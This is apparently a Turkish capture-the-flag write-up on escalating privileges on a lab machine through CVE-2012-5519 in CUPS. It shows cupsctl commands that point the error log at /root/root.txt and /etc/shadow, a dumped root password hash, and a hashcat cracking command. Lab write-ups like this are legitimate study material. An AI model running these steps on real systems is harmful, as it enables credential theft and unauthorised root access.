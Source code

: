 ![Pasted image 20250208173558.png](/img/user/Pasted%20image%2020250208173558.png)

“ Server ” bölümünde çeşitli günlükleri gösteren bağlantılar var. Configuration dosyasını düzenlemeye ve kaydetmeye çalıştığımda, auth sorusu çıkıyor ki bende auth yok.

Error log'da daha önce yaptığım isteği görebiliyorum:

![Pasted image 20250208173857.png](/img/user/Pasted%20image%2020250208173857.png)

### CVE-2012-5519

#### Background
CUP'lardaki güvenlik açıkları için yapılan bir araştırma CVE-2012-5519, CUPS 1.6.1'de root olarak okunan dosya sonucunu veriyor ki bu da buradaki sürümle eşleşiyor.

Bu [makale](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read) hem Metasploit modülünün nasıl çalıştırılacağını göstermek hem de nasıl başarısız olabileceğini açıklamak için gerçekten güzel bir iş çıkarıyor.

Exploit [kaynağına](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb) bakıldığında, error log'u farklı bir dosyaya (datastore['FILE']) ayarlamak için mevcut oturumda cupsctl (ctl_path değişkenine kaydedilmiş) kullanılıyor:

```
cmd_exec("#{ctl_path} ErrorLog=#{datastore['FILE']}")
```

#### Read Flag

Yapabileceğim ilk şey root.txt dosyasını almak. Onu error log olarak ayarlayacağım:

```
lp@antique:~$ cupsctl ErrorLog=/root/root.txt
```


![Pasted image 20250208174535.png](/img/user/Pasted%20image%2020250208174535.png)


#### Shell Failures

Dosya sistemindeki kullanıcıların hash'lerini almak için /etc/shadow dosyasını okuyabiliyorum:

```
lp@antique:/dev/shm$ cupsctl ErrorLog=/etc/shadow
lp@antique:/dev/shm$ curl 127.0.0.1:631/admin/log/error_log?
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
...[snip]...
```

Hash'i olan tek kullanıcı root. Bunu hashcat kullanarak kırmayı deneyebilirim, bu tam satırı bir dosyaya (hash) koyup çalıştırabilirim:

```
$ /opt/hashcat-6.2.5/hashcat.bin hash /usr/share/wordlists/rockyou.txt --user
```
